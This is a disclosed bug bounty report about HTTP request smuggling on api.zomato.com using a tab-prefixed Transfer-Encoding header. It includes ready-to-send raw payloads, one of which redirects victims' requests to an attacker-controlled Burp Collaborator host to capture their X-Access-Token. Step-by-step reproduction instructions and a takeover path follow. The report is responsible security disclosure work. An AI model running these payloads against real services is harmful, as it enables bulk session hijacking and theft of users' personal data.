 # Stealing Zomato X-Access-Token: in Bulk using HTTP Request Smuggling on api.zomato.com

## Report Details
- **Report ID**: 771666
- **URL**: https://hackerone.com/reports/771666
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-01-10T14:24:17.581Z
- **Disclosed**: 2020-07-09T05:56:04.312Z

## Reporter
- **Username**: defparam
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
# Intro
Hi Zomato Security Team!
My name is Evan Custodio and this is my first time evaluating your platform. I specialize in looking for server-side vulnerabilities. Recently I've taken a deep look at HTTP Request Smuggling issues. I have custom tools to evaluate over 150 types of HTTP Smuggling Payloads. When evaluating your platform I've found one asset that falls victim to HTTP Smuggling Attacks that result in: PII/Information Leakage, Session Takeover, Victim Request Hijacking/Forging and Forced Victim Redirection to Attacker Endpoint. this is a serious bug that should be dealt with immediately as any bad Actor could use these issues to stage attacks that could cause severe damage to Zomato and Zomato's Customers.

# api.zomato.com
## The Request Smuggling Bug
This asset is vulnerable several CL.TE-based HTTP Request Smuggling issues. This issue can cause data to poison the backend server socket and interfere with customer requests. One specific payload that cause issues are named in my tool as: "**tabprefix1**". This payload is a mutation of the "**Transfer-Encoding: chunked**" header that is placed in an HTTP request with "**Content-Length: (length)**" header. In the HTTP spec it is stated that when both Transfer-Encoding: chunked and Content-Length headers are specified then the server should always prioritize chunked encoding over Content-Length sizing. However, in cases when multiple reverse proxies are inline to an HTTP connection and a corner case TE and CL header are both specified, there are times when the frontend server may not recognize the TE header and fallback to CL processing while the backend server recognizes the TE header and prioritizes it over CL. When this happens it is considered HTTP De-synchronization which can lead to Request Smuggling (attacker data poisoning the backend socket into the victim connection).

Definition of **tabprefix1**:
- An HTTP request where both CL and TE headers are specified and where the TE header is formatted like so:
	- ``Transfer-Encoding:\tchunked`` (note that there is a tab after the colon and before the 'chunked', this disrupts the parsing)

This asset specifically shows issues with the **tabprefix1** test (see glimpse below)

{F680682}

If we focus on this specific attack payload,  here is what a typical hijack would look like:
```
DELETE / HTTP/1.1
Transfer-Encoding:	chunked
Host: api.zomato.com
Content-Length: 51
User-Agent: Treasure/6.7

0

GET /some/other/endpoint HTTP/1.1
X-Ignore: X[STOP]
```
If you look closely at the headers both Transfer-Encoding and Content-Length headers are specified in this payload. This hits a natural corner case in which Transfer-Encoding takes priority over the Content-Length, however if you look closely this payload places a tab character after the colon on the Transfer-Encoding line. By doing this the frontend server rejects that line and processes the whole request using the length of 51 found in the Content-Length header and forwards all 51 bytes of data to the backend server. The backend server sees the same HTTP request and processes the `Transfer-Encoding : chunked` as a normal chunked request. The issue is that the chucked request specifies 0 bytes of data and the remaining data of the 51 bytes is left on socket to poison the next customer request that comes into the backend server. Since this payload has no return characters after the "X-Ignore: X" then the poison data essentially pre-pends onto the customer request, their HTTP request line is deleted and the customer is redirected to `/some/other/endpoint`


# Bug #1 - Chain with an Open Redirect to Steal Session Tokens at Bulk
This bug is the big one that I believe is critical. As an attacker with Burp, one can craft a single Request Smuggling payload to steal a customer session token on Zomato. The following payload can be pasted into the repeater to illustrate this:
```
DELETE / HTTP/1.1
Transfer-Encoding:	chunked
Host: api.zomato.com
Content-Length: 91
User-Agent: Treasure/6.7

0

GET https://2psvzm9pf3hkuz2dptyimjaynptfh4.burpcollaborator.net/desync/ HTTP/1.1
X: X
```
It appears when you smuggle and hijack an HTTP request and you change the request endpoint to be: `https://some.host.name/desync/` on the request line the backend server should never see a request like this because the frontend server immediately returns `404 Not Found`. However, if you smuggle it past the frontend server to the backend then the request is never filtered and it is responded to with a `301 Moved Permanently` to the location `http://some.host.name/desync`. When we do that to a victim connection the victim's HTTP client automatically redirects to the new location with the same exact headers (including and most importantly the `X-Access-Token:` header). In my test I set up a Burp Collaborator client with an address to force redirection to. The collaborator sees the DNS lookup and the HTTP Request with the  `X-Access-Token:` token. Futhermore I also receive the IP address of the victim.

Here is an example of me sending 1 smuggle/hijack to a victim in Burp Repeater:
█████

Here is the victim request showing up in my collaborator:
█████████

To illustrate impact, an attacker could write a script to scrape Access-Tokens this way, then with the access token grab the UserID via `GET /v2/tabbed/home HTTP/1.1`. Then with the Access-Token/UserID pair the attacker can access: `GET /v2/userdetails.json/<USERID> HTTP/1.1` to get the victim's First/Last Name, Phone Number, Email address, etc..

Also the attacker can perform full session takeover/impersonation by performing a normal login into zomato, intercept the response to his own `POST /v2/auth` request and swap his Access-Token/USERID with the victim's Access-Token/USERID. By doing this the mobile app will log onto zomato as if the attacker were the victim.

# Bug #1 - Triage
1) Open Burp and go into the Repeater tab
2) Click send and enter in the hostname/port/SSL (api.zomato.com 443 checked)
3) Click on menu Burp->Burp Collaborator client
4) In the Collaborator window set to Poll every 1 second and click on "Copy to clipboard", your collaborator URL should be in the clipboard, keep it saved
5) Back in the repeater paste the following as your request body:
```
DELETE / HTTP/1.1
Transfer-Encoding:	chunked
Host: api.zomato.com
Content-Length: 91
User-Agent: Treasure/6.7

0

GET https://**YOUR_COLLAB_URL**/desync/ HTTP/1.1
X: X
```
and replace YOUR_COLLAB_URL with the one copied from your collab client

6) Click send as many times required to see HTTP requests in your collab window.
**NOTE**: Sometimes you may just see DNS requests to your collaborator. Send the payload out as many times required to see an HTTP request.

# Conclusion
Thanks for your time reading my report and performing triage. I hope this writeup proves helpful! I have ceased my testing on `api.zomato.com` until remedy is in place. Once your team had remedy in place I will be happy to run my array of desync tests on the asset.

Thanks,
@defparam

## Impact

Attacker can achieve victim session takeover in bulk and steal all information from the victim. This attack can be automated to perform this process in bulk. Since this is the case I have filed this report as **Critical** because I believe it meets the criteria of:

`Information Disclosure - mass PII leaks including data such as names, phone numbers and addresses`

## Attachments
- initial_test.png
